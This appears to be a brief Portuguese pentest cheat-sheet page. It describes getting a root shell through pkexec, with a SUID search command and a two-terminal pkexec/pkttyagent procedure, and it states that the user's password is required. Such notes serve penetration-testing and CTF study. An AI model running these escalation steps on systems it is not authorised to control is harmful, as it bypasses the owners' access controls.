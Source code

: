 ```yaml
---
description: É necessario saber a senha do usuario
---
```


# /usr/bin/pkexec



```
find / -perm -4000 2>/dev/null | grep pkexec

Abrir dois terminais

1° terminal
echo $$
>999999 - Usar este numero no 2° Terminal antes de rodar o proximo comando

pkexec /bin/bash

2° terminal
pkttyagent -p numero

```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>Exemplo</p></figcaption></figure>

